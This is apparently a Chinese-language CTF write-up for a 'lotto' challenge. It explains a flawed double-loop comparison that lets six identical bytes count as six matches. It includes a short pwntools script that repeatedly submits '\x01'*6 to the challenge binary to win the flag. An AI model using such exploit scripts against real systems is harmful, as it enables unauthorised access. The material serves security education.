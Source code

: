 ## Source code
蠻無聊的題目，問題在於

```
// calculate lotto score
int match = 0, j = 0;
for(i=0; i<6; i++){
	for(j=0; j<6; j++){
		if(lotto[i] == submit[j]){
			match++;
		}
	}
}
```

題目要求我們給 6 bytes，他會存入 unsigned char[6] submit 裏面。

這支程式會亂數產生 6 bytes 的樂透號碼，然後用上述 double for-loop 進行比對。


很明顯這個邏輯是有問題的，假設我們輸入 1 1 1 1 1 1

然後其中一個開獎的號碼是 1

那 match 就會被遞增 6次，match == 6

## Pwn
機率問題，所以我們可以用 pwntools 編寫 exploit 然後 scp 上傳到 server:/tmp 下

記得在 /home/lotto 底下執行，否則 cat 會提示當前目錄找不到 flag 文件
```
#!/usr/bin/env python2.7

from pwn import *

context.log_level = 'debug'
conn = process('/home/lotto/lotto')

while True:
    conn.recvuntil('3. Exit')
    conn.sendline('1')

    conn.recvuntil('Submit your')
    conn.sendline("\x01" * 6)

    conn.recvuntil('bad luck')
```
